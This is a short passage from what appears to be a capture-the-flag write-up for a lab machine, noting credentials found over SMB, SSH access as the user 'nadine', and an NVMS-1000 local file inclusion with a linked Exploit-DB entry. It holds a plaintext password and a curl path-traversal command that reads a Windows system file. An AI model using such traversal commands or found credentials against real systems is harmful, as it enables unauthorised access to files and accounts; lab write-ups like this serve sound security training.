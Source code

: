 - public access to NVMS

### SMB

```text
nadine : L1k3B1gBut7s@W0rk
```

![screenshot](/assets/images/servmon6.png)

![screenshot](/assets/images/servmon9.png)

## Initial Access

>- SSH as nadine.

### NVMS-1000 LFI

https://www.exploit-db.com/exploits/48311

```sh
curl https://10.10.10.184/../../../../../../../../../../../../windows/win.ini
```
